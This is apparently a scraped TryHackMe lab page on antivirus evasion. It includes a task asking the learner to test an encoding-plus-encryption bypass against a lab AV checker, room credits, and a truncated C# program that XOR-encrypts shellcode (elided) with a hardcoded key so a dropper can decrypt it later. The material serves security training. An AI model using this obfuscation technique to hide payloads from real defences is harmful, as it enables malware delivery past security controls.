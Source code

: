 As you can see, simple adjustments are enough sometimes. Most of the time, any specific methods you find online won't probably work out of the box as detection signatures may already exist for them. However, using a bit of imagination to customize any method could prove enough for a successful bypass.

Answer the questions below

Try to use this technique (combining encoding and encryption) on the THM Antivirus Check at `http://10.10.243.131/`. Does it bypass the installed AV software?

 Completed

Task 9  Packers

Task 10  Binders

Task 11  Conclusion

Created by ![](https://tryhackme-images.s3.amazonaws.com/user-avatars/af7feb2c43a2c7d5f111b98ccbd15048.png) [tryhackme](https://tryhackme.com/p/tryhackme) and ![](https://tryhackme-images.s3.amazonaws.com/user-avatars/6be6191826f2a6e5a154c13ad8f29d1e.png) [munra](https://tryhackme.com/p/munra)

Only subscribers can deploy virtual machines in this room! Go to your [profile](https://tryhackme.com/profile) page to subscribe (if you have not already). 6690 users are in here and this room is 351 days old.

[

](https://remote-eu-05.tryhackme.tech/#/client/MjUxMzU5MQBjAG15c3Fs?token=9E39876EFD65C1751CAB8CE30DF5F104DD29B50FCF0EDCEB6650161B8B9B0690)

shellcodes_test_v1.2

1h 00m 15s

![](https://downloads.intercomcdn.com/i/o/378475/452a29d68866e874f9ddccf0/9e0f012f15b6fc981dde2f1f5198d728.png)


```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace Encrypter
{
    internal class Program
    {
        private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
        static void Main(string[] args)
        {
            //XOR Key - It has to be the same in the Droppr for Decrypting
            string key = "THMK3y123!";

            //Convert Key into bytes
            byte[] keyBytes = Encoding.ASCII.GetBytes(key);

            //Original Shellcode here (csharp format)
            byte[] buf = new byte[460] { 0xfc,0x48,0x83,..,0xda,0xff,0xd5 };

            //XORing byte by byte and saving into a new array of bytes
            byte[] encoded = xor(buf, keyBytes);
```